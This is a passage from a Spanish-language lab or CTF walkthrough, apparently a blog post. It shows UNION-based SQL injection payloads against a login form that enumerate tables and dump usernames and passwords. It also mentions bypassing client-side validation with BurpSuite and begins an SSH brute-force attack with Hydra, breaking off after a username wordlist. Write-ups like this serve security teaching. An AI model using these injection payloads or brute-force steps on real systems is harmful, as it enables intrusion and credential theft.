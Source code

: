 SELECT table_name FROM information_schema.tables where table_schema='sysadmin'
-- Seleccionando la base de datos "sysadmin" y recuperar las tablas que contiene

-- Sephiroth')union select all 1,column_name from information_schema.columns where table_name='users'#
SELECT column_name FROM information_schema.columns where table_name='users'
-- Visualizando las columnas que tiene la tabla Users de la base de datos "sysadmin"

-- Sephiroth')union select 1,(select group_concat(username,0x7c,password) from sysadmin.users)#
SELECT group_concat(username,0x7c,password) FROM sysadmin.users
-- Visualizando el contenido de la tabla users con todas sus columnas separadas con el caracter |
-- El valor 0x7c es equivalente al caracter |
{% endhighlight %}

Cabe resaltar, que el aplicativo web cuenta con una validacion de JS que no permite el ingreso de muchos caracteres en los campos de inicio de sesion.  
Para burlar dicha validacion podriamos hacer uso de BurpSuite.  

<figure>
  <img src="{{site.baseurl}}/img/SQL-CredsNightmare.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/SQL-CredsNightmare.png" title="Obteniendo credenciales de la tabla usuarios">Obteniendo credenciales de la tabla usuarios</a>
  </figcaption>
</figure>


## Realizando un forzado de inicio de sesion en SSH con HYDRA     
Gracias a la informacion obtenida con las inyecciones SQL, tenemos una tabla de usuarios con sus posibles correspondientes contraseñas.  
El paso siguiente es organizar un diccionario con la informacion recopilada y realizar un ataque de fuerza bruta con HYDRA para iniciar sesion sobre el servicio de SSH.  
**Ataque de fuerza bruta**, es el proceso donde se intenta obtener acceso no autorizado a un sistema o software protegido por una contraseña. En otras palabras es obtener la contraseña correcta que le da acceso a un sistema protegido por un método de autenticación.  
[Articulo Completo](https://hackingprofessional.github.io/Security/Cracking-de-passwords/)  
Vamos a crear dos archivo de texto, en el primero alojamos todos los usuarios y en el segundo todas las credenciales:  
El archivo de **usuarios.txt** debe tener el siguiente contenido:  
{% highlight markdown %}
admin
cisco
adminstrator
josh
system
root
decoder
ftpuser
sys
superuser
user
{% endhighlight %}
